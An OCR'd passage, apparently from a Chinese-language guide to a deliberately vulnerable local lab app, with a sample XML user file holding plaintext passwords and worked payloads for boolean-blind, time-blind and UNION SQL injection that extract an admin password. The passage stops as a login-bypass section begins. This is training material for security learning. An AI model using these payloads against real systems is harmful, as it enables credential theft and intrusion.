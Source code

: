         <username>amason</username>
        <name>anthony</name>
        <surname>mason</surname>
        <password>gandalf</password>
    </user>
    <user id="3">
        <username>svargas</username>
        <name>sandra</name>
        <surname>vargas</surname>
        <password>phest1945</password>
    </user>
</users>

4 漏洞类型
4.1 注入漏洞
4.1.1 Blind SQL Injection (boolean)

基于布尔型的盲注: HTTP请求的响应体中不会明确的返回SQL的错误信息, 当把参数送入程序查询时，并且在查询条件为真的情况下返回正常页面，条件为假时程序会重定向到或者返回一个自定义的错误页面。

漏洞地址:    
http://127.0.0.1:65412/?id=2

EXPLOIT:

http://127.0.0.1:65412/?id=2 AND SUBSTR((SELECT password FROM users WHERE name='admin'),1,1)='7'`

4.1.2 Blind SQL Injection (time)

基于时间型的盲注: 与布尔型盲注类似, 当把参数送入程序查询时，通过判断服务器响应时所花费的时间, 如果延迟大于等于Payload中设定的值时就可判断查询结果为真, 否则为假。不同的BDMS使用的方法和技巧略有不同。

漏洞地址:    
http://127.0.0.1:65412/?id=1

EXPLOIT:

http://127.0.0.1:65412/?id=1 and (SELECT (CASE WHEN (SUBSTR((SELECT password FROM users WHERE name='admin'),2,1)='e') THEN (LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(300000000))))) ELSE 0 END))

    这个漏洞环境用到了 SQLITE3 中的 CASE 窗口函数与 RANDOMBLOB 来实现的基于时间的盲注。        
    MSQL: sleep(2)        
    MSSQL: WAITFOR DELAY '0:0:2'

4.1.3 UNION SQL Injection

基于联合查询注入: 使用UNION运算符用于SQL注入，UNION运算符是关联两个表的查询结果。攻击者故意伪造的恶意的查询并加入到原始查询中, 伪造的查询结果将被合并到原始查询的结果返回，攻击者会获得其他表的信息。

漏洞地址:    
http://127.0.0.1:65412/?id=2,

EXPLOIT:

http://localhost:65412/?id=2 UNION ALL SELECT NULL, NULL, NULL, (SELECT id||','||username||','||password FROM users WHERE username='admin')

4.1.4 Login Bypass

登陆绕过: 这里是基于SQL注入的一种绕过方式。登陆验证的逻辑没有验证和过滤输入字符直接带到sql进行查询,所以产生漏洞。

